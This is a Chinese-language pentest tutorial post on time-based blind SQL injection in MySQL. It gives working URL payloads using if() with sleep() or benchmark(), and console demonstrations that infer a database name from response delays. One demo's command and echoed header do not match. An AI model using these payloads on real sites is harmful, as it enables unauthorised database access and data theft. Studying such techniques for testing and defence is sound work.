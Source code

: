 +++
title = "SQL注入之基于时间的注入"
topics = ["Pentest"]
tags = ["injection"]
description = "基于时间的SQL注入"
date = "2016-06-24T10:10:27+08:00"
draft = false
+++

### 0x00 特点
```
当页面存在注入，但是没有显示位且不管怎么测试返回页面都没有变化，此时可以使用基于时间的盲注进行注入。
其实只要存在SQL注入就可以使用基于时间的盲注，利用范围比较广泛，但是可能受到网络带宽等因素的影响。
```

### 0x01 利用方式
```
整型注入的话可以直接: ?id=if(1=1,sleep(2),1)
字符型的话需要闭合: ?id=2' and if(1=1,sleep(2),1) and '1
```

### 0x02 相关函数
* if(条件, 值1, 值2)  
当条件为真时返回值1，条件为假时返回值2

* sleep()  
sleep(2)睡眠两秒

* benchmark(count, expr)  
benchmark是用于测试函数性能的，它是将表达式expr执行count次，执行次数越多耗费时间越久

### 0x03 基于时间的注入payload
```
mysql> select if((select database()) like "rte%",sleep(2),666);
+---------------------------------------------------+
| if((select database()) like "rte%",sleep(2),666)  |
+---------------------------------------------------+
|                                                 0 |
+---------------------------------------------------+
1 row in set (2.00 sec)

mysql> select if((select database())="rteaaa",sleep(2),666);
+-----------------------------------------------+
| if((select database())="rtest1",sleep(2),666) |
+-----------------------------------------------+
|                                           666 |
+-----------------------------------------------+
1 row in set (0.00 sec)

mysql> select if((select database())="rtest",sleep(2),666);
+----------------------------------------------+
| if((select database())="rtest",sleep(2),666) |
+----------------------------------------------+
|                                            0 |
+----------------------------------------------+
1 row in set (2.00 sec)
```
```
mysql> select id,name,title from msg where id=if(1=1,benchmark(10000000,md5(11)),1);
Empty set (2.32 sec)

mysql> select id,name,title from msg where id=if(1=2,benchmark(10000000,md5(11)),1);
+----+-------+-------+
| id | name  | title |
+----+-------+-------+
|  1 | reber | first |
+----+-------+-------+
1 row in set (0.00 sec)
```

### 0x04 简单注入

1. 判断闭合字符(and 1=1／and 1=2)
![得到闭合字符](/img/post/sqli9-get-closed-character-1.png)
![得到闭合字符](/img/post/sqli9-get-closed-character-2.png)

2. 得到数据库名字
![得到数据库名字](/img/post/sqli9-get-database.png)
